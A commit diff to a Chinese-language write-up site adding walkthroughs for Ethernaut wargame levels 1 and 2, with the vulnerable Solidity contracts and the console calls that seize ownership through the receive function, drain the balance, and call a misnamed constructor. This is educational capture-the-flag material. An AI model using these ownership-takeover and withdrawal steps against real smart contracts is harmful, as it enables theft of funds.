

Before and after one commit to YanhuiJessica/Chictf-Writeups, an MkDocs documentation site: the page built from docs/wargames/ethernaut.md, in a window 1280 px wide and 1400 px high, scrolled down 996 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 1445 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
ethernaut 1-2

````diff
--- a/docs/wargames/ethernaut.md
+++ b/docs/wargames/ethernaut.md
@@ -5,51 +5,203 @@ title: OpenZeppelin：Ethernaut
 ## 0. Hello Ethernaut
 
 - 登录 MetaMask，将 MetaMask 切换到 Rinkeby 测试网络
-  - 若没有则需要在 `设置->高级` 中开启「Show test networks」
+    - 若没有则需要在 `设置->高级` 中开启「Show test networks」
 - 在浏览器的控制台可以收到一些消息，其中一条为玩家地址
-  - 可以使用 `player` 命令随时查看玩家地址，MetaMask 也可以直接复制
+    - 可以使用 `player` 命令随时查看玩家地址，MetaMask 也可以直接复制
 - 查看当前余额：`getBalance(player)`
-  - 如果显示 `pending`，可改用 `await getBalance(player)` 来获得清晰的结果
+    - 如果显示 `pending`，可改用 `await getBalance(player)` 来获得清晰的结果
 
-    ```js
-    >> await getBalance(player)
-    "0"
-    ```
+        ```js
+        >> await getBalance(player)
+        "0"
+        ```
 
 - 在控制台输入 `ethernaut` 查看游戏的主要合约
-  - 合约的 ABI（Application Binary Interfaces）提供了所有 Ethernaut.sol 的公开方法，如所有者，可通过 `ethernaut.owner()` 查看
-  - 并不需要直接与 Ethernaut.sol 合约交互，而是通过关卡实例
+    - 合约的 ABI（Application Binary Interfaces）提供了所有 Ethernaut.sol 的公开方法，如所有者，可通过 `ethernaut.owner()` 查看
+    - 并不需要直接与 Ethernaut.sol 合约交互，而是通过关卡实例
 - 获取测试用以太币用于支付汽油费：[1](https://faucet.rinkeby.io/) / [2](https://faucets.chain.link/rinkeby) / [3](https://faucet.paradigm.xyz/)
 - 点击「Get new instance」并在 MetaMask 授权交易
 - 查看合约信息并根据提示交互
 
-  ```js
-  >> await contract.info()
-  "You will find what you need in info1()."
-  >> await contract.info1()
-  "Try info2(), but with \"hello\" as a parameter."
-  >> await contract.info2("hello")
-  "The property infoNum holds the number of the next info method to call."
-  >> await contract.infoNum()
-  {
-    "negative": 0,
-    "words": [
-      42,
-      null
-    ],
-    "length": 1,
-    "red": null
+    ```js
+    >> await contract.info()
+    "You will find what you need in info1()."
+    >> await contract.info1()
+    "Try info2(), but with \"hello\" as a parameter."
+    >> await contract.info2("hello")
+    "The property infoNum holds the number of the next info method to call."
+    >> await contract.infoNum()
+    {
+      "negative": 0,
+      "words": [
+        42,
+        null
+      ],
+      "length": 1,
+      "red": null
+    }
+    >> await contract.info42()
+    "theMethodName is the name of the next method."
+    >> await contract.theMethodName()
+    "The method name is method7123949."
+    >> await contract.method7123949()
+    "If you know the password, submit it to authenticate()."
+    >> await contract.password()
+    "ethernaut0"
+    >> await contract.authenticate("ethernaut0")
+    // MetaMask 授权交易，等待确认
+    ```
+
+- 查看合约所有 ABI：`contract.abi`
+- 完成后点击「Submit instance」验证
+
+## 1. Fallback
+
+阅读合约代码并达成以下目标：
+
+1. 获得合约的所有权
+2. 将其余额减为 0
+
+```js
+// SPDX-License-Identifier: MIT
+pragma solidity ^0.6.0;
+
+import '@openzeppelin/contracts/math/SafeMath.sol';
+
+contract Fallback {
+
+  using SafeMath for uint256;
+  mapping(address => uint) public contributions;
+  address payable public owner;
+
+  constructor() public {  // 构造函数
+    owner = msg.sender; // 所有者为当前调用
+    contributions[msg.sender] = 1000 * (1 ether);
   }
-  >> await contract.info42()
-  "theMethodName is the name of the next method."
-  >> await contract.theMethodName()
-  "The method name is method7123949."
-  >> await contract.method7123949()
-  "If you know the password, submit it to authenticate()."
-  >> await contract.password()
-  "ethernaut0"
-  >> await contract.authenticate("ethernaut0")
-  // MetaMask 授权交易，等待确认
-  ```
 
-- 完成后点击「Submit instance」验证
+  modifier onlyOwner {
+        require(
+            msg.sender == owner,
+            "caller is not the owner"
+        );
+        _;
+    }
+
+  function contribute() public payable {
+    // msg.value - 随消息发送的 wei 的数量
+    require(msg.value < 0.001 ether);
+    contributions[msg.sender] += msg.value;
+    // 每次转账不能超过 0.001 以太币，想要超过原 owner 的 1000 以太币
+    // 需要重复调用多次 contribute 函数，且测试账户也没有那么多以太币，显然不太现实
+    if(contributions[msg.sender] > contributions[owner]) {
+      owner = msg.sender;
+    }
+  }
+
+  function getContribution() public view returns (uint) {
+    return contributions[msg.sender];
+  }
+
+  function withdraw() public onlyOwner {
+    owner.transfer(address(this).balance);  // 合约所有者才能将账户余额清零
+  }
+
+  // 一个合约最多能有一个 receive 函数，不能有参数和返回值
+  // 必须声明 external 和 payable
+  // 当调用合约的 data 域为空时，将会执行；如果没有 receive 函数，将尝试 fallback 函数
+  receive() external payable {
+    require(msg.value > 0 && contributions[msg.sender] > 0);
+    owner = msg.sender;
+  }
+}
+```
+
+- 注意到若当前交易转账金额大于 0 且调用者贡献不为 0 时，可以通过 `receive` 函数取得合约所有权
+- 首先通过 `contribute` 使贡献值大于 0
+
+    ```js
+    >> await contract.contribute({value:1})
+    ```
+
+- 向合约转账触发 `receive` 函数，执行完成后确认一下所有者
+
+    ```js
+    >> await contract.send(1)
+    // 或
+    >> await contract.sendTransaction({value:1})
+
+    >> await contract.owner()
+    ```
+
+- 清空合约账户的余额
+
+    ```js
+    >> await contract.withdraw()
+    ```
+
+### 参考资料
+
+- [Receive Ether Function](https://docs.soliditylang.org/en/latest/contracts.html?highlight=receive#receive-ether-function)
+- [sendTransaction](https://web3js.readthedocs.io/en/v1.7.0/web3-eth.html?highlight=sendTransaction#sendtransaction)
+
+## 2. Fallout
+
+声明合约的所有权
+
+```js
+// SPDX-License-Identifier: MIT
+pragma solidity ^0.6.0;
+
+import '@openzeppelin/contracts/math/SafeMath.sol';
+
+contract Fallout {
+
+  using SafeMath for uint256;
+  mapping (address => uint) allocations;
+  address payable public owner;
+
+  /* constructor */
+  function Fal1out() public payable {
+    owner = msg.sender;
+    allocations[owner] = msg.value;
+  }
+  // 在 v0.4.22 前，构造函数是和合约同名的函数（v0.5.0 弃用）
+
+  modifier onlyOwner {
+	        require(
+	            msg.sender == owner,
+	            "caller is not the owner"
+	        );
+	        _;
+	    }
+
+  function allocate() public payable {
+    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
+  }
+
+  function sendAllocation(address payable allocator) public {
+    require(allocations[allocator] > 0);
+    allocator.transfer(allocations[allocator]);
+  }
+
+  function collectAllocations() public onlyOwner {
+    msg.sender.transfer(address(this).balance);
+  }
+
+  function allocatorBalance(address allocator) public view returns (uint) {
+    return allocations[allocator];
+  }
+}
+```
+
+被注释为「构造函数」的函数名为 `Fal1out` 而不是 `Fallout` 意味着该函数只是普通函数可以被调用
+
+- 真正的构造函数只在合约创建时调用一次
+
+```js
+>> await contract.Fal1out()
+```
+
+### 参考资料
+
+[Constructors](https://docs.soliditylang.org/en/latest/contracts.html?highlight=constructor#constructors)
````
